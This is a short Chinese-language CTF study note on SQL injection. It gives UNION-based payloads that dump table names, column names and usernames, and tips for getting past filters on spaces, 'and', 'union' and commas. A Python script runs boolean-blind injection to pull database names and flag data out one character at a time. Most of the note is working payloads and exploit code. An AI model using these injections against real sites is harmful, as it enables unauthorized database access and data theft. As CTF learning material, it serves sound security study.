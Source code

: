 ```yaml
---
title: SQL注入
date: 2024-01-01 16:36:59
tags:
categories: ctf
---
```






暴表名

1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#



暴列名

1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#



查询username分别是什么

1' union select 1,2,group_concat(username) from l0ve1ysq1#



**过滤**

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过

2. 过滤and, 可以使用or替代

3. 过滤union, 可以用盲注替代联合注入

4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替

   

**盲注脱库例：**

按顺序脱 库、表、字段

```python
import requests
 
url = 'URL?id=-1/**/or/**/'
name = ''
 
# 循环45次( 循环次数按照返回的字符串长度自定义)
for i in range(1, 45):
    
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    
    # 截取SQL查询结果的每个字符, 并判断字符内容
    
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))
 
        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break
 
        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```

